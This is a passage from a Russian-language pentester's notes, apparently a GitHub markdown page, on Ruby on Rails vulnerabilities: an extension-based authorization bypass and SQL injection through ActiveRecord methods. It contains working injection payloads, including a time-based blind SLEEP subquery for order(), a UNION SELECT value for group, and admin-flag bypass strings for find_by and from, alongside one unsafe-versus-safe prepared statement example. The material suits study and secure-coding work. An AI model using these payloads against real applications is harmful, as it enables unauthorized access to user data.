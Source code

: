 ```
/user_data/2341      --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## SQLi in ORDER BY

Только посмотрите, как круто в коде `RubyOnRails` выглядит `SQLi` в ORDER BY:\
`Client.order(:first_name)`\
Т.е. Active Record Query Interface после такого вызова построит следующий запрос:\
`'SELECT * FROM Clients ORDER BY #{:first_name}'` , где `#{:first_name}` - это user input.\
Метод `.order()` не фильтрует и не экранирует получаемые данные. А значит, в таком случае мы легко можем раскрутить `Blind SQLi` c подзапросом вроде:\
`ORDER BY 1,(SELECT 1 FROM SLEEP(5))`-- , где дальше можно крутить Boolean-based, Time-based и пр.\
P.S. Почему это круто?!\
Потому что разработчики, когда пишет код, даже не подозревает, что вызов вроде `Client.order(:first_name)` приведет к `SQLi`. Тут ничего не режет глаз, нет конкатенации, нет опасных функций, казалось бы и пр.

## SQLi: Active Record — Rails ORM

Как выглядит в коде SQLi

```ruby
def index
    ...
    name = params[:name]
    @projects = Project.where("name like '" + name + "'");
    ...
end
```

```ruby
# Unsafe
st = ActiveRecord::Base.connection.raw_connection.prepare(
    "select * from users where email = '#{email}'"
)
results = st.execute
st.close

# Safe
st = ActiveRecord::Base.connection.raw_connection.prepare(
    "select * from users where email = ?"
)
results = st.execute(email)
st.close
```

```ruby
# Unsafe exists
User.exists? params[:user]

# For Example: ?user[]=1 -> 
SELECT  1 AS one FROM "users"  WHERE (1) LIMIT 1


# Unsage find_by
params[:id] = "admin = 't'"
User.find_by params[:id]

# from
params[:from] = "users WHERE admin = 't' OR 1=?;"
User.from(params[:from]).where(admin: false)

# group
params[:group] = "name UNION SELECT * FROM users"
```